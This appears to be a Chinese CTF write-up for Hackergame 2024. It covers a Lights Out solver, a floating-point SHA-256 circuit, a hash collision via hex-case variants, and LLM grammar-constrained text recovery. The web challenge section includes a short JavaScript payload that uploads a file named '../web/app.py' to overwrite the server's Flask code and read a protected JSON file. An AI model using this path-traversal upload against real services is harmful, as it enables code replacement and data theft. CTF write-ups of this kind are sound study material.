为了处理高效，使用np.packbits将(0, 1)矩阵压缩存储，按位异或能批量计算，带来至少8倍的速度提升。因为缓存被更有效地利用，实际优化可能更大。

首次运行时，程序会生成一个118MB的查找表文件，在我的电脑上需要计算约5分钟。预热缓存后，求解过程0.2秒就能完成。

```python
import os
import io
import numpy as np
from tqdm import tqdm, trange

N = 149
# 索引顺序：立方体[层][行][列]
# 层 = 0为最底层，层 = 1为次底层，层 = N - 1为最顶层


def getbit(a: np.ndarray, i: int) -> bool:
    """在np.packbits给出的位向量中索引指定位。"""
    return bool(a[i >> 3] & 1 << (i & 7))


def gaussian_elimination_gf2(mat: list[np.ndarray]) -> None:
    """在GF(2)上（即模2）高斯消元。mat是N²行、每行至少N²位的压缩(0, 1)矩阵，原地执行。"""
    # 处理第j个变量
    for j in trange(N * N, desc="解方程组"):
        # 找一个第j个变量系数非零的幸运行
        for i in range(j, N * N):
            if getbit(mat[i], j):
                break
        else:
            continue
        # 幸运行是第i行，将其换到第j行
        # 因为这个交换操作，所以数据格式选了list套ndarray，而不是二维ndarray
        if i != j:
            mat[i], mat[j] = mat[j], mat[i]
        # 消去其他行第j个变量
        # 不需要限制只消下面的行，可免去传统高斯消元代回去的步骤
        for i in range(N * N):
            if i != j and getbit(mat[i], j):
                mat[i] ^= mat[j]


def press2d(switch_array: np.ndarray) -> np.ndarray:
    """题目代码中convert_switch_array_to_lights_array的二维版本。"""
    lights_array = switch_array.copy()
    lights_array[:-1, :] ^= switch_array[1:, :]
    lights_array[1:, :] ^= switch_array[:-1, :]
    lights_array[:, :-1] ^= switch_array[:, 1:]
    lights_array[:, 1:] ^= switch_array[:, :-1]
    return lights_array


def top_level(a0: np.ndarray, a1: np.ndarray) -> np.ndarray:
    """给出最底层的灯a0和次底层的灯a1，将亮着的灯集中到顶层，返回顶层的灯。"""
    a1 = a1.copy()
    for _ in range(N - 1):
        a1 ^= press2d(a0)
        a0, a1 = a1, a0
    return a0


def solve_until_top_level(cube: np.ndarray) -> np.ndarray:
    """给出初始状态cube，将所有亮着的灯集中到顶层，返回按的开关。会破坏cube中的数据。"""
    solution = np.zeros_like(cube)
    for i in range(N - 1):
        solution[i + 1] = cube[i]
        cube[i + 1] ^= press2d(cube[i])
        if i + 2 < N:
            cube[i + 2] ^= cube[i]
        cube[i] = 0
    return solution


def solve_top_level(a: np.ndarray) -> np.ndarray:
    """给出顶层状态a，返回要按的底层开关。会破坏a中的数据。"""
    bytes_per_entry = (2 * N * N + 7) // 8
    solution = np.zeros_like(a)
    with open(f"{N}.bin", "rb") as f:
        for i in tqdm(np.ravel(a), desc="应用解法"):
            if i:
                row = np.fromfile(f, dtype=np.uint8, count=bytes_per_entry)
                row = np.unpackbits(row, count=2 * N * N, bitorder="little")
                row = row.reshape(2, N, N)
                a ^= row[0]
                solution ^= row[1]
            else:
                f.seek(bytes_per_entry, io.SEEK_CUR)
    return solution


if not os.path.exists(f"{N}.bin"):
    rows: list[np.ndarray] = []
    for i in trange(N * N, desc="构建矩阵"):
        a = np.zeros(N * N, dtype=np.uint8)
        a[i] = 1
        a = a.reshape(N, N)
        y = top_level(press2d(a), a)
        rows.append(np.packbits(np.stack((y, a)), bitorder="little"))
    gaussian_elimination_gf2(rows)
    with open(f"{N}.bin", "wb") as f:
        for row in tqdm(rows, desc="写出文件"):
            row.tofile(f)


def solve(data: str) -> bytes:
    cube = np.array(bytearray(data, "ascii"))
    cube &= 1
    cube = cube.reshape(N, N, N)
    solution = solve_until_top_level(cube)
    solution[0] = solve_top_level(cube[-1].copy())
    cube[0] = press2d(solution[0])
    cube[1] = solution[0]
    solution ^= solve_until_top_level(cube)
    solution |= 48
    return np.ravel(solution).tobytes()


import zlib
import base64
import hashlib
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from pwn import *


def decrypt_and_decompress(data: bytes, key: bytes) -> str:
    data = base64.b64decode(data)
    cipher = AES.new(key, AES.MODE_CBC, iv=data[: AES.block_size])
    data = unpad(cipher.decrypt(data[AES.block_size :]), AES.block_size)
    return zlib.decompress(data).decode("utf-8")


conn = remote("202.38.93.141", 10098)
conn.sendafter(b"token:", b"114514:asdfgh==\n")
conn.sendafter(b"~4): ", b"4\n")
data = conn.recvuntil(b"\n")
conn.sendafter(b"timer: ", b"\n")
key = bytes.fromhex(conn.recvuntil(b"\n").decode())
data = decrypt_and_decompress(data, key)
sol = solve(data)
conn.sendafter(b"possible: ", hashlib.sha256(sol).hexdigest().encode() + b"\n")
conn.sendafter(b"answer: ", sol + b"\n")
print(conn.recvall().decode())
```

以前一直觉得[Logic Games Online里的解法](https://www.logicgamesonline.com/lightsout/tutorial.html)chase the light很别扭，貌似是个逻辑解却还要查表，没想到这才是真正的老登解法。

**赛后补**：官解的PLU分解是个啥？PLU分解将矩阵分解为三个，官解没有packbits，每个元素占1字节，每个矩阵大小为471MB，三个矩阵共计1.4GB，经过ZIP压缩还剩55MB。在我的电脑上，官解预处理需要9分钟，求解需要1.2秒。我的程序也是NumPy，预处理只需要6分半，求解只需要0.2秒。因为复杂度相同，这应该是优化上的差异。我看到不少选手虽然用了正确解法，但Python超时，换C++等语言才过，大抵是没有使用NumPy向量化技巧。

<h2 title="禁止内卷">我们的部署確有問題</h2>

我干过跟助教几乎一样的偷懒部署，可惜用户也懒得攻击我。致敬每一个将调试功能用于生产的先驱者。

虽然根据平方差值可以解方程得到每一项的分数，但这是一道web题，仔细阅读题目代码可以发现JSON里的负数都被搞没了，靠平方差算出来的flag无法复原，这才理解题目特地强调“原始JSON文件”的含义。

题目对部署方式的描述暗示得很明显，要覆盖应用代码。提交表单时的文件名可以包含斜杠等特殊字符，导致上传的文件可以逃出指定文件夹。这一点我是在研究《LESS文件查看器在线版》一题时发现的，但那题神秘地钻不了这个空子。

```js
f=new FormData
f.append('file',new Blob(['app=__import__("flask").Flask("",static_folder="")']),'../web/app.py')
fetch('/submit',{method:'POST',credentials:'include',body:f})
```

是的，浏览器内发POST请求也能任意指定上传文件名。这一行Python代码就是静态资源Flask服务器，访问`/answers.json`就能拿到原始JSON文件。

<h2 title="图灵完备的浮点数减法">图灵完备的旷野大计算</h2>

搜索浮点数减法完备，会找到一篇看起来非常像答案的文章[Subtraction Is Functionally Complete](https://orlp.net/blog/subtraction-is-functionally-complete/)，用±0作为布尔值运算，利用减法实现蕴含门。[NaN Gates and Flip FLOPS](https://tom7.org/nand/)用NaN和∞作为布尔值运算，利用函数实现逻辑门。但它们都没用，因为±0、±∞和NaN都是算术黑洞，一旦产生就无法仅靠减法还原到常规值范围了。

估算一下，SHA-256有64轮，每轮有大约20次32位算术和逻辑运算，包含模2<sup>32</sup>加法、位与、异或、移位。程序限制总长10<sup>6</sup>条指令，这还要包括输入输出，每个逻辑门只能分配到十来条指令。加法需要位与和异或，实在不行还能借浮点数加法；在电路中移位只是重新接线，不需要指令。如果简单地用0和1作为布尔值运算的话，只要有了与门，就能用减法得到加法在低位产生的异或，所以与门是刚需。

只要相加然后借助浮点误差抹掉末位，就能得到以0和2表示的与门结果，但这样会造成数值膨胀，翻倍容易减半难，[一旦到达1.80e308就不得不大坍缩](https://ivark.github.io/AntimatterDimensions/)。所以必须想个办法~~打破无穷~~把2变回1。

@tom7还有一篇更新的文章[GradIEEEnt half decent](http://tom7.org/grad/)指出浮点数运算误差产生的非线性可用于训练神经网络。

**赛后补**：题目正文第一句话就暗示了这篇文章，文章的第一段就是：“假如你是我教授。也许你真的是我的教授，那么我开口之前你可能就已经开始汗流浃背了。”官解竟然没提到这篇文章。文章作者推荐去看配套的视频。此外，[PowerPoint图灵机](https://esolangs.org/wiki/(P%E2%84%A2TM%E2%84%A2)%E2%84%A2)和[MOV指令](https://esolangs.org/wiki/Mov)图灵完备也是真的，用Minecraft红石电路搭CPU的工程更是不计其数。

这篇文章中的函数<var>f</var>(<var>x</var>) = <var>x</var> + <var>a</var> − <var>a</var>引起了我的注意。特别是，当取的常数使自变量在加法后刚好落在浮点精度跳变的边界上，就有相当程度的非线性发生，而非单纯的舍入误差。写了个脚本凑一下，还真找到了能直接将0、1、2钳制到0和1的办法，而且还不止一种。

```python
from collections import defaultdict
h = defaultdict(list)
for a in (x / 16 for x in range(-64, 65)):
    for b in map(float.fromhex, ("0.0", "1p52", "1p53", "-1p52", "-1p53")):
        h[tuple(x + a + b - b for x in range(3))].append((a, b))
for y, t in h.items():
    print(y, *t, sep="\t")
```

<var>x</var> − 1 − 2<sup>53</sup> + 2<sup>53</sup>能将0和1变为0，2变为1。这样逻辑门就研究得差不多了。

接下来考虑输入输出。输出只要将各位倍增然后相加就行，问题在于输入。若能借助误差将[0, 127]变为0，[128, 255]变为某个非零数，就能得到最高位。人脑不是电脑，思考不如烧烤，脚本如法炮制，解法如出一辙。

```python
for a in (x / 2 for x in range(-1024, 1025)):
    for b in map(float.fromhex, ("1p59", "1p60", "1p61", "-1p59", "-1p60", "-1p61")):
        h[tuple(x + a + b - b for x in (0, 127, 128, 255))].append((a, b))
```

<var>x</var> − 63.5 − 2<sup>60</sup> + 2<sup>60</sup>能将[128, 255]统一映射到128。将最高位消去，然后所有常数除以2，继续操作，就能将低位依次分离开。在高位上按比例套用能将2变为1的函数，就能归一化。

思路有了，接下来就是码农时间……技巧是使用运算符重载和合适的抽象来生成程序，让代码看起来没有那么爆炸，但还是很爆炸，阅读屎山请移步[floatsha256.py](floatsha256.py)。

本节标题中的[旷野大计算](https://www.luogu.com.cn/problem/P1737)是一道类似的神金题。

话说Python啥时候才能支持一下十六进制浮点数字面量啊？好像现在只有C++支持。

<h2 title="哈希三碰撞">原来这才是真正的区块链题</h2>

**赛后补**：后两小题看都没看一眼，本节标题是看本题官解后有感而发。

### 三碰撞之一

题目核心逻辑如下：

```c
for (i = 0; i < 3; i++) {
	printf("Data %d:", i + 1);
	if (scanf("%16s", &s[i]) != 1 || hex_to_bin(&s[i], &d[i], 8)) {
		fwrite("Invalid input\n", 1, 14, stderr);
		return 1;
	}
}
if (!strcmp(s[0], s[1]) || !strcmp(s[0], s[2]) || !strcmp(s[1], s[2])) {
	puts("Input should be different");
	return 1;
}
for (i = 0; i < 3; i++) {
	SHA256(&d[i], 8, &hash[i]);
	h[i] = 0;
	for (j = 0; j < 4; k++) {
		h[i] <<= 8;
		h[i] |= ((unsigned char *) &hash[i])[j];
	}
}
if (h[0] == h[1] && h[1] == h[2]) {
	f = fopen("flag1", "r");
```

注意到比较输入相等时只比较了十六进制字符串而没比较字节，所以可以用不同的大小写输入产生相同的字节，从而得到相同的散列。给哈希三碰撞来点小小的惜字如金震撼。

<h2 title="零知识数独">纸笔高手</h2>

### 数独高手

我的纸笔谜题水平限于[Noq](https://www.noq.solutions/sudoku)。

<h2 title="神秘代码 2">求救，我已经快想爆了</h2>

### 你好，\_\_\_（三个字母）

这题的nc有什么意义？又不能操作。

五条提示，既不藏头，又不能对角线提取。

程序输出并没有被题目自动Base64编码，看起来像是因为字节码程序自己做了编码。

注意到第一小题的字节码里有一段长度为64的ASCII可打印字符，后面紧跟着输出内容。由这段字符串前面的编码格式应该能确认是哪个虚拟机。

这到底是什么虚拟机的字节码？题面里没有任何说明，仅有的提示是小题标题中的“三个字母”。试了一圈，JVM、Lua、CLR，都不对。完全不能理解，遂放弃。

出题人R，你不许出神秘代码系列了😡！

<h2 title="先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」">大模型模型虎视眈眈</h2>

### 「行吧就算标题可以很长但是flag一定要短点」

一年一度的“这就是puzzlehunt给我的自信”时间！

[Nutrimatic](https://nutrimatic.org/) Is All You Need，又名《强大的正则表达式》，基于Wikipedia语料提供依使用频次排序的词组检索。

将x替换为`[hackergmx]`，然后搜索。例如对于“xnd txx stxxxs wxxx xixx”，[在Nutrimatic上搜索`"[hackergmx]nd t[hackergmx]{2} st[hackergmx]{3}s w[hackergmx]{3} [hackergmx]i[hackergmx]{2}"`](https://nutrimatic.org/2024/?q=%22%5Bhackergmx%5Dnd+t%5Bhackergmx%5D%7B2%7D+st%5Bhackergmx%5D%7B3%7Ds+w%5Bhackergmx%5D%7B3%7D+%5Bhackergmx%5Di%5Bhackergmx%5D%7B2%7D%22)，第一个结果即为正确的“and the stakes were high”。如法炮制，手动解开整段密文。

用单词词典检索会遇到很多可能性，例如[用Qat在UKACD中检索“xxxx”](https://www.quinapalus.com/cgi-bin/qat?pat=%5Bhackergmx%5D%5Bhackergmx%5D%5Bhackergmx%5D%5Bhackergmx%5D&dict=0)的可能词有120个。用Nutrimatic，可提供尽可能长的搜索条件，以期通过上下文排除可能性。

### 「就算你把我说的话全出成题目也不会赢得我的好感的哼」

这回应该真的要用上语言模型了。llama.cpp支持通过[GBNF语法](https://github.com/ggerganov/llama.cpp/blob/c421ac072d46172ab18924e1e8be53680b54ed3b/grammars/README.md)限制模型输出，所以可以编写一个像这样的语法文件，让LLM填词。

```
x ::= [hackergm ofustx]
root ::= (
	"#" x "T" x{3} "G" x{5} "H" x{10} "2024:" x
	"W" x{9} "R" x{2} "l" x "W" x{2} "ld" x "M" x{9}
	"Vi" x{4} "l" x "R" x{2} "l" x "\n\n"
	"##" x "In" x{3} "d" x{3} "i" x "n" x{8} "G" x{5} "H" x{10} "2024"
	# …
)
```

```python
import re
import time
import secrets
from llama_cpp import Llama, LlamaGrammar
from tqdm import tqdm

with open("after.txt", "r") as f:
    g = f.read()
    g = re.sub(r"[^x]+", lambda m: '"%s" ' % m.group(0), g)
    g = re.sub(r"x+", lambda m: "x{%d} " % len(m.group(0)) if len(m.group(0)) > 1 else "x ", g)
    g = "x ::= [hackergm ofustx]\nroot ::= " + g

llm = Llama(model_path="qwen2.5-3b-instruct-q8_0.gguf", n_ctx=1024, verbose=False)

text = llm.create_chat_completion(
    messages=[
        {"role": "system", "content": "You are a professional CTF player."},
        {
            "role": "user",
            "content": "Write a short article for Hackergame 2024 (中国科学技术大学 (University of Science and Technology of China) 第十一届信息安全大赛) in English. The more funny and unreal the better. About 500 words.",
        },
    ],
    grammar=LlamaGrammar.from_string(g),
    seed=secrets.randbits(64),
)
text = text["choices"][0]["message"]["content"]  # type: ignore
assert isinstance(text, str)
with open(f"{time.strftime("%d-%H-%M-%S")}.log", "w") as f:
    print(end=text, file=f)
```

前两段给出的字母稍多，模型能基本准确复原，但后面就开始逐渐丧失语言功能。因为限制独立作用在每个token上的缘故，语法中后面的已知字母不会对前面的生成产生影响。模型遇到大段连续的未知字母时就相当于没有限制而开始随机编写，直到遇到下一个已知字母时对不起来。GBNF语法要求强行插入一个不符合英语语法的字母，接下来预测时模型看到的上下文逐渐偏离英语语法，预测结果也就开始偏离英语语法的反馈循环。偶尔随机到一句刚好能对上已知字母的句子，就能正常继续。

我通过<ruby>人工智能<rt>手动操作</ruby>把各次运行得到的部分能读得通顺的句子拼凑成完整的文章，然后把十分确定的部分填回语法文件，以期在未知部分生成更多的人话。模型输出了完整文章的时候，我觉得我仿佛马上要触及答案，然而最终结果是怎么都无法通过SHA256验证。可能真的就只差那么一点，但这个状态也没法纠错，错误不会是字符级别的，爆不了。

> # The Great Hackergame 2024: Where the Real World Meets the Virtual Realm
>
> ## Introduction to the Great Hackergame 2024
>
> Welcome to the Great Hackergame 2024, where the real world meets the virtual realm in a dazzling display of hacking prowess and comedic brilliance. This year, the University of Science and Technology of China (USTC) is hosting its eleventh iteration of the Information Security Competition, and we're here to make sure you're ready to dive into the action with the best of them.
>
> ## The Rules Are Flexible, But the Fun Is Unmatched
>
> In the Great Hackergame, the rules are as flexible as the hackers themselves. You can use any tool, any technique, and any method to break into the virtual fortress that is the USTC's Information Security Challenge. But don't let the flexibility of the rules fool you; the fun is in the execution. From cracking the most secure passwords to bypassing the most sophisticated firewalls, every challenge is a chance to showcase your hacking skills and your sense of humor.
>
> ## The Team of the Year
>
> This year, we're looking for a team that can not only break into the virtual fortress but also make us laugh. Think of it as a team sport, where each member brings a unique skill to the table. Whether you're the master of social engineering, the wizard of SQL injection, or the master of ethical hacking, you have a place in the team of the year. But remember, the team that cracks the most challenges and makes us laugh the most wins.
>
> ## The Challenges Are as Varied as the Hackers
>
> The Great Hackergame 2024 is a treasure trove of challenges, each one more absurd and hilarious than the last. From cracking the password of the most secure password generator to bypassing the most sophisticated firewall, every challenge is a chance to showcase your hacking skills and your sense of humor. But don't worry, we've got you covered. We've even included a challenge where you have to crack the password of the most secure password generator, but the catch is that the password generator itself is a joke, and the password is a pun. So, you'll have to use your wit and your hacking skills to crack it.
>
> ## The Final Challenge: The Great Hackergame 2024
>
> The final challenge of the Great Hackergame 2024 is the ultimate test of your hacking skills and your sense of humor. You'll have to break into the virtual fortress, but the catch is that the fortress is a joke. The walls are made of paper, the guards are sleeping, and the most secure password generator is a pun. So, you'll have to use your wit and your hacking skills to crack it. But remember, the team that cracks the most challenges and makes us laugh the most wins.
>
> ## Conclusion
>
> The Great Hackergame 2024 is a chance to showcase your hacking skills and your sense of humor. Whether you're a seasoned hacker or a newcomer to the world of hacking, you have a place in the team of the year. So, grab your tools, put on your best hacker hat, and get ready to make the Great Hackergame 2024 the most hilarious and memorable hacking competition ever. See you in the virtual fortress!

跨不过34个x的难关。

正确的做法应该是概率优先搜索，预测时先尝试概率最高的分支，生成完整文章后比较SHA256，然后尝试概率次高的分支，等等，这样才能应对难以一遍就还原出来的文本。

但要编写出逐token搜索的程序，就不能继续使用llama-cpp-python提供的高阶API。接下来有两条道路：使用llama-cpp-python提供的低阶C API绑定，或者直接换用llama.cpp。Python绑定是一种集成了Python和C所有缺点的黄金屎，缺乏IDE支持，缺少文档，需要自行处理数据转换，需要手动把字符串编码成字节序列，还要手动管理内存。平时不写C++的我要面对的llama.cpp更是强如怪物，拼尽全力亦无法战胜。遂放弃。

**赛后补**：唉，AI。

```diff
 From cracking the most secure passwords
 to bypassing the most sophisticated firewalls,
-every challenge is a chance to showcase
+every challenge is a chance to show off
 your hacking skills and your sense of humor.
```
